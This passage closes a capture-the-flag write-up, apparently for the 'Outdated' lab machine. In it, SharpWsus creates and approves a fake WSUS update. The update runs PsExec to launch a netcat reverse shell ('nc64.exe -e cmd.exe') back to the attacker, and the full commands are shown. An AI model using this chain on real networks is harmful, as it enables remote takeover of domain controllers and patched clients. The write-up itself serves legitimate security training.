 ![image](https://user-images.githubusercontent.com/87700008/208945092-5720525c-7061-4ddc-9db2-e992d272d8da.png)

After that I ran this command with SharpWsus to perform the update with the netcat binary (I transferred into the machine) & run a specific command with netcat to connect back to my kali machine :

        Invoke-SharpWsus create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d C:\Users\sflowers\Desktop\nc64.exe -e cmd.exe my_ip lport" /title:"Shell"
        
![image](https://user-images.githubusercontent.com/87700008/208945903-ef420d67-f946-40f4-9eb8-ff5ad91ef60d.png)

After running the above command I got information to run some more commands to approve my WSUS action & to check wether the updated is completed or not & I ran them accordingly:

        Invoke-SharpWsus approve /updateid:4f1fae1d-35ab-4c31-999a-0053d1c39a4b /computername:DC.outdated.htb /groupname:"Shell"
        
        Invoke-SharpWsus check /updateid:4f1fae1d-35ab-4c31-999a-0053d1c39a4b /computername:DC.outdated.htb
        
After 2 min I got confirmation that the update is installed & I also got a reverse shell in my attackbox : (pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/208946654-8a39b76d-f656-4cff-9d8c-4940d05140c8.png)

Got the root flag after this in Admin desktop folder.
